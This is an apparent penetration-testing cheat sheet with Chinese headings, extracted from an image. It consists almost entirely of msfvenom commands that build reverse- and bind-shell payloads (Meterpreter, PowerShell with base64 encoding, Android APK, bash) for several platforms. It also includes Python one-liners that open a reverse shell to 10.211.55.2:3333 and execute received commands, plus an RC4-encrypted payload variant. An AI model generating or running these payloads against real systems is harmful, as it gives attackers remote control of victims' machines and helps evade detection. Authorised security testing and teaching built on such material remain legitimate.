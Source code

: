 msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=10.211.55.2 lport=3333 RC4PASSWORD=password  -f c
在监听的服务端设置相同的密钥

各平台payload
windows:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f exe > shell.exe

linux:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f elf > shell.elf

mac:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f macho > shell.macho

android:
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 R > test.apk

powershell:
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -e cmd/powershell_base64 -i 3 -f raw -o shell.ps1

nc:
msfvenom -p windows/shell_hidden_bind_tcp LHOST=10.211.55.2 LPORT=3333  -f exe> 1.exe
msfvenom -p windows/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333  -f exe> 1.exe

shellcode
Linux Shellcode:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Linux -f c
Windows Shellcode:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform Windows -f c
Mac Shellcode:
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.211.55.2 LPORT=3333 -a x86 --platform osx -f c

脚本:
python reverse shell:
msfvenom -p cmd/unix/reverse_python LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py
msfvenom -a python -p python/meterpreter/reverse_tcp LHOST=10.211.55.2 LPORT=3333 -f raw > shell.py

python bind shell:
python/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.211.55.2",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
python/python3 -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(("10.211.55.2",3333))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"

bash:
msfvenom -p cmd/unix/reverse_bash LHOST=10.211.55.2 LPORT=3333 -f raw > shell.sh
